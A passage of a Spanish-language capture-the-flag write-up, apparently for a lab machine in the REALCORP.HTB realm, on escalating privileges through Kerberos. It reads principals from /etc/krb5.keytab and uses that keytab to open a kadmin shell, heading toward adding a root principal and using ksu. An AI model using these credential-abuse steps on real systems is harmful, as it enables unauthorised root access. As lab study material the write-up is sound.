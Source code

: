 Dos me llamaron la atención de primeras, `ksu` y `kadmin`. Buscando en internet sus funcionalidades, el más relevante del cual empezaremos a desplegarnos será `ksu`. Es una versión "kerberized" del programa `su` en linux. Su "misión" es la de autenticar y autorizar. Todo esto permitiéndoselo (resolviendo) al "target principal name" (como el usuario principal).

* [Docs Kerberos - User commands (**ksu**)](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_commands/ksu.html).

Entonces, tenemos la idea de algo llamado "target principal name", si buscamos en la web sobre como modificar o agregar algo asi, tenemos:

* [Docs Cloudera - Get or create a **kerberos principal** for each user account](https://docs.cloudera.com/documentation/enterprise/5-3-x/topics/cm_sg_get_princ_4_users_s16.html).

> In the `kadmin.local` or `kadmin` shell, use the following command to **create a principal** for your account by replacing `EXAMPLE.COM` with the name of your `realm`, and replacing `username` with a `username`:
>> kadmin:  addprinc username@EXAMPLE.COM 

* Tons, debemos agregarle el `dominio` (realm) y el usuario (`root`, para despues usar el comando `ksu` y obtener una sesión como él, ya que será el <<principal>>).

Entonces, si jugamos con `kadmin` como comando nos muestra:

```bash
[admin@srv01 ~]$ kadmin 
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal admin/admin@REALCORP.HTB with password.
kadmin: Client 'admin/admin@REALCORP.HTB' not found in Kerberos database while initializing kadmin interface
```

Vale, nuestro usuario no puede usarlo, pero recordemos el archivo `.keytab`, usémoslo y probemos con sus usuarios:

```bash
[admin@srv01 ~]$ klist -k /etc/krb5.keytab | sort -u
---- --------------------------------------------------------------------------
2 host/srv01.realcorp.htb@REALCORP.HTB
2 kadmin/admin@REALCORP.HTB
2 kadmin/changepw@REALCORP.HTB
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
```

```bash
[admin@srv01 ~]$ kadmin -h
kadmin: invalid option -- 'h'
Usage: kadmin [-r realm] [-p principal] [-q query] [clnt|local args]
      [command args...]
clnt args: [-s admin_server[:port]] [[-c ccache]|[-k [-t keytab]]]|[-n]
local args: [-x db_args]* [-d dbname] [-e "enc:salt ..."] [-m]where,
[-x db_args]* - any number of database specific arguments.
                Look at each database documentation for supported arguments
```

```bash
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal host/srv01.realcorp.htb@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  
```

